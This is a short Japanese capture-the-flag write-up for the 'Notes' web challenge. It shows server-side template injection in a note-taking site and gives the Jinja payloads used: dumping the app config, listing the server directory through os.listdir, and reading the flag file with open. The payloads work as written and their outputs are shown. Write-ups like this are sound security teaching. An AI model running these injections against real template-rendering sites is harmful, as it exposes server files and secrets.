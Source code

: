 # Notes:Web:881pts
[http://challenges2.hexionteam.com:2001](http://challenges2.hexionteam.com:2001)  

# Solution
URLにアクセスすると次のようなページが開く。  
[site.png](site/site.png)  
どうやら買い物のメモを保存しておくサイトのようで、ソースを見てやると/notesが存在するらしい。  
`{{`を入力してやると/notesで500エラーが発生する。  
サーバーサイドテンプレートインジェクションをにらんで`{{config}}`を入力すると/notesは以下になる。  
[{{config}}を入力]({{config}}.html)  
ここからSECRET_KEYを奪い、セッションを偽装するのかと考えたが違うようだ。  
サーバーのファイルを読み取りにいく。  
`{{url_for.__globals__.__getitem__('os').listdir('./')}}`を入力すると/notesは以下になる。  
```text
["['.bash_logout', '.bashrc', '.profile', '__pycache__', 'server.py', 'templates', 'flag']"]
```
flagなるファイルがあるようだ。  
`{{url_for.__globals__.__getitem__('__builtins__').__getitem__('open')('flag').read()}}`を入力し表示する。  
```text
["hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput} "]
```

## hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}